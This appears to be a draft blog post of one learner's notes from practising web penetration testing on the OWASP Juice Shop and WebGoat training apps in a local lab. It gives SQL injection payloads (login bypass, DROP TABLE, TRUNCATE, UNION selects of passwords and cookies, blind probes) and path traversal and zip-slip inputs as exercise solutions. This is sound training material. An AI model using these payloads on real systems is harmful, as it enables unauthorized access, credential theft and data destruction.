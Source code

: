 ```yaml
---
title: OWASP Juice Shop & WebGoat
slug: web-site-pen-testing
date_published: 1970-01-01T00:00:00.000Z
date_updated: 2023-05-28T08:22:11.000Z
draft: true
---
```


Some notes and such from my adventures so far...

For those who don't know, the [OWASP Juice Shop](https://owasp.org/www-project-juice-shop/) is a handy app that allows you to test your web app pen testing skills.

I set up a local VM and installed the Juice Shop manually using NodeJS and NPM.

After getting the Juice Shop server set up, I set up an additional VM with Kali Linux and then provided them both with only a single network interface, a local link, to talk to each other.

On the Kali box, I tried the following apps to get an general idea of possible exploits.

### Scanning the Juice Store

- Wapiti: Found nothing
- SkipFish: Decent amount of hidden directories and more. Nice HTML report. Crashed web server. Found redirect flag for Juice Store.
- BurpSuite: Have to request a trial for 30 days (don't want to pay $500 for pro in order to scan). Still waiting on trial.
- nikto: Very heavy on the certificates found in various paths. Bad reporting? Need to check if output a nicer report format. Found WordPress directories that others missed.

### SQL Injection

I find most information on the internet about SQL Injection sorely lacking. I think most people just copy and paste the same old tired example of

`' or 1=1;--`

Which I can't possibly see working on 99% of all servers in production, but what do I know. I say this as this is the same example that has been floating around for a long time.

Anyways, on to the Juice Shop login page. Here I was able to log on as administrator with:

User:

    administrator\' or 1=1;--

Pass: test

Which logged me in and provided me with the real admin email: admin@juice-sh.op

### OWASP WebGoat

Download and installation instructions are [here](https://owasp.org/www-project-webgoat/).

I also set up WebGoat on the same VM as the Juice Shop. A useful tip for anyone doing the same thing was that the documentation on the website was incorrect or misleading as I wanted to change the default IP from localhost to 0.0.0.0. On the website it seems to imply that you can add the '--server.address' argument as:

`java -jar webgoat-app.jar --server.address=0.0.0.0`

And this certainly did not work for me. I have a set up where I have 2 VMs on a local link where the WebGoat would be at 169.254.7.200 and my attacking machine (using Kali) would be at 169.254.7.150.

This is what finally worked for me (which I gleaned from the [github repo](https://github.com/WebGoat/WebGoat)):

`java -Dserver.address=0.0.0.0 -jar webgoat-app.jar`

Another tip when going through the SQL Injection, especially as I skipped directly to these lessons, the DB being used is the HSQLDB and therefore the admin SQL reference can be found [here](https://hsqldb.org/doc/2.0/guide/guide.html).

Some good tips picked up from the lessons in WebGoat:

- ' or 1=1; TRUNCATE audit_log;--
- ' or '1'='1
- SQL Injection more common in PHP, ASP and ColdFusion
- SQL server provides command shell
- String concatenation with ' or + or ||
- Strings without quotes: char(27)
- SELECT * FROM users WHERE name = '+char(27) OR 1=1
- use prepared statements help mitigate SQL Injection
- implement whitelist with ORDER BY
- Use zip files to overwrite files after upload using path traversal

### Blind SQL Injection

- Involves asking 'database true or false questions' when server provides only generic error responses.
- Types include: content-based and time-based injections
- Find out what type of DB as that can provide insight to system tables

### Blind SQL Injection - Example of content-based:

- https://shop.example.com/?article=4 and 1=1 --> if no error, then DB might be susceptible to SQL injection

### Blind SQL Injection - Example of time-based:

- article = 4; sleep(10) --

### WebGoat SQL (Intro) - Solution for exercise 9:

`' or '1'='1`

### WebGoat SQL (Intro) - Solution for exercise 10:

Login_Count: `1`

User_Id: `1 or 1=1`

### WebGoat SQL (Intro) - Solution for exercise 11:

Employee Name: `' or 1=1;--`

or

Employee Name: Blah

Authentication TAN: `' or '1'='1`

### WebGoat SQL (Intro) - Solution for exercise 12:

Employee Name: `' or 1=1; UPDATE employees SET salary=100000 WHERE first_name='John'`

### WebGoat SQL (Intro) - Solution for exercise 13:

Action contains: `' or 1=1; DROP TABLE access_log;--`

### WebGoat SQL (Advanced) - Solution for exercise 3:

Name: `Dave' union select userid, user_name, 'name', 'cc', password, cookie, 1 from user_system_data;--`

or

Name: `Dave'; select * from user_system_data;--`

### WebGoat SQL (Advanced) - Solution for exercise 5:

This one involved blind SQL injection on a login page. After much trials on the login section with the username and pass, I moved on to the registration section and created a new user named 'devon.' After creating the user I then tried creating the same user with:

`devon' and 1=1;--`

The response was that the user was already created, but this can't be true as the username includes the '1=1' and other special script. This shows that there is a user with this name, which we already knew and that the server used the remaining string as an injection that compared the user name AND 1=1 which returned a hit.

Also, you can create another user account with:

`devon' and 1=2;--`

And then create ANOTHER account with the exact same string. And then create ANOTHER account with the same exact string and so on. This again indicates that the server is using the injection as the 1=2 ensures that even though there IS a 'devon' that the select returns a false as 1=2 --> FALSE and therefore TRUE AND FALSE = FALSE.

### WebGoat  SQL (Mitigation) - Solution for exercise 9:

`'/*sp*/or/*sp*/'1'='1';select/*sp*/*/*sp*/from/*sp*/user_system_data;--`

### WebGoat  SQL (Path Traversal) - Solution for exercise 3:

Full Name: `....//test`

### WebGoat  SQL (Path Traversal) - Solution for exercise 4:

Open Manua Request Editor using OWASP ZAP. In the request body change:
`filename="../white-bookshelf.jpg"`

### WebGoat  SQL (Path Traversal) - Solution for exercise 5:

Open OWASP ZAP and find the GET request that is being sent when the 'Show random cat picture' button is pressed. Modify this request and resend it using the Manual Request Editor. Found the location by first adding just `%2e%2e%2f` to the GET request and getting 404 error message with current directory. There is a URL encoding tool in ZAP.

`GET http://localhost:9000/WebGoat/PathTraversal/random-picture?id=%2e%2e%2f%2e%2e%2fpath-traversal-secret`

### WebGoat  SQL (Path Traversal) - Solution for exercise 7:

In terminal, change directory to `/tmp/webgoat125something`. Place .jpg file in `/home/user/.webgoat/PathTraversal/webgoat/webgoat.jpg`. While still in the webgoat tmp folder, zip the webgoat.jpg by adding it's path to zip command:

`zip goat.zip ../../home/user/.webgoat/PathTraversal/webgoat/webgoat.jpg`

### Some things to try:

- using EXISTS: `' or EXISTS(SELECT * FROM users);`
- `devon' and exists(select * from users) and '1'='1`
- `devon' any(select * from users) and '1'='1`
- `Tom' and length(password)>0;`--
- tom' AND ascii(substring(password,1,1)) > 60;--
- Tom' and length(user)>5;--
- Tom' and ascii(substr(user,2,2))=65;--
- Tom' and right(email,3)='com

